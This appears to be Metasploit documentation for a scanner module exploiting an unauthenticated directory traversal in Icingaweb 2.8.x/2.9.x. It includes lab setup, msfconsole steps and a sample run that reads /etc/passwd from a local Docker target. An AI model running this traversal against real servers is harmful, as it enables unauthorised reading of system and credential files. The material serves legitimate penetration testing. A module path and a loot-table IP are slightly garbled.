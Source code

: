 
## Vulnerable Application

Icingaweb versions between 2.9.0-2.9.5, 2.8.0-2.8.5 (inclusive) suffer from an
unauthenticated directory traversal vulnerability. The vulnerability is triggered
through the icinga-php-thirdparty library, and the file to read is an absolute path.

This module was tested against Icingaweb 2.9.5 running on Docker.

## Install Icingaweb on Ubuntu 22.04

```
sudo apt-get install docker.io -y
sudo docker run -p 8080:8080 icinga/icingaweb2:2.9.5
```

Browse to port 8080 to confirm  the site loads. No need to configure.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/scanner/http/icinga_static_library_file_directory_traversal`
4. Do: `set rhosts [ip]`
5. Do: `set file [file]`
6. Do: `run`
7. You should be able to retrieve a file

## Scenarios

### Version 2.9.5 from Docker

```
[*] Processing icinga.rb for ERB directives.
resource (icinga.rb)> use scanner/http/icinga_static_library_file_directory_traversal
resource (icinga.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (icinga.rb)> set file /etc/passwd
file => /etc/passwd
resource (icinga.rb)> check
[*] 127.0.0.1:8080 - The service is running, but could not be validated. 127.0.0.1:8080     - Icinga Web 2 found, unable to determine version.
resource (icinga.rb)> run
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] /etc/passwd saved to /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (icinga.rb)> loot

Loot
====

host          service  type         name         content     info  path
----          -------  ----         ----         -------     ----  ----
127.000.0.01           icinga file  /etc/passwd  text/plain        /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
```
